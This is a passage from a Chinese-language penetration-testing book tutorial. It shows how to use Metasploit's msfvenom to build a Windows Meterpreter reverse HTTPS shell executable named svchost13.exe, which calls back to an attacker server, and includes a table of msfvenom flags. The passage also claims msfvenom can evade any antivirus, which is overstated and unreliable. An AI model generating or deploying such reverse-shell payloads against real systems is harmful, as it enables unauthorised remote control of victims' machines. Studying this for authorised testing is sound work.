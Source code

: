 好吧，那是老派的方法。现在，让我们使用 Metasploit 的工具来做同样的事情。我们将在`//rogue3`上加载 Metasploit，我们邪恶的服务器，让我们的受害者机器连接到该机器上的 Meterpreter shell。我们将从之前的内部黑客中构建和上传这个漏洞利用。除了`msfconsole`之外，我们还将使用 Metasploit 工具包中的其他工具。Metasploit 配备了一个独立的应用程序来构建自定义漏洞和 shellcode。这个工具叫做`msfvenom`，我们将使用它来构建一个漏洞利用。完全使用`msfvenom`可能是一个完整的章节，超出了本书的范围，所以在这里我们将使用最常见的标志来生成我们的可执行文件来构建一个反向 HTTP 漏洞利用。我们将通过运行以下命令来构建漏洞利用：

```
msfvenom -a x86 -platform windows -p windows/meterpreter/reverse_https -f exe -o svchost13.exe  
```

MSFvenom 是一个强大且可配置的工具。MSFvenom 具有构建自定义漏洞的能力，可以绕过任何防病毒软件。防病毒软件通过查看文件的签名来工作。MSFvenom 具有编码漏洞的能力，使得防病毒软件无法检测到它。这是隐藏漏洞的情况，就像另一个常见的可执行文件，比如记事本 MSFvenom，可以向可执行文件添加 NOP 或空代码，使其大小与原始文件相同。很可怕，不是吗？

以下表格显示了标志的列表：

| 用法： |
| --- |
| `/opt/metasploit/apps/pro/msf3/msfvenom [options] <var=val>` |
| **选项** | **长选项** | **变量** | **注释** |
| `-p` | `--payload` | `<payload>` | 要使用的负载。指定`-`或`stdin`以使用自定义负载 |
| `-l` | `--list` | `[module_type]` | 列出模块类型示例：负载、编码器、NOP、全部 |
| `-n` | `--nopsled` | `<length>` | 在负载上添加一个大小为[length]的 nopsled |
| `-f` | `--format` | `<format>` | 输出格式（使用`--help-formats`列出） |
| `-e` | `--encoder` |  | 要使用的编码器 |
| `-a` | `--arch` | `<architecture>` | 要使用的架构 |
|  | `--platform` | `<platform>` | 负载的平台 |
| `-s` | `--space` | `<length>` | 结果负载的最大大小 |
| `-b` | `--bad-chars` | `<list>` | 要避免的字符列表；示例：`\x00\xff` |
| `-i` | `--iterations` | `<count>` | 编码负载的次数 |
| `-c` | `--add-code` | `<path>` | 指定要包含的额外 win32 shellcode 文件 |
| `-x` | `--template` | `<path>` | 指定要用作模板的自定义可执行文件 |
| `-k` | `--keep` |  | 保留模板行为，并将负载注入为新线程 |
| `-o` | `--options` |  | 列出负载的标准选项 |
| `-h` | `--help` |  | 显示此消息 |
|  | `--help-formats` |  | 列出可用格式 |

以下截图显示了命令的输出。`msfvenom`显示没有使用编码器，并且在构建中没有检查坏字符。对于这个演示，它们是不需要的：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/3e1676cc-08b2-4d69-8f8d-0ca3f078f49a.png)

现在，通过运行`ls`命令，我们可以看到我们的文件：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/d691b71a-d30d-485e-ab9c-9f5c3c102ced.png)
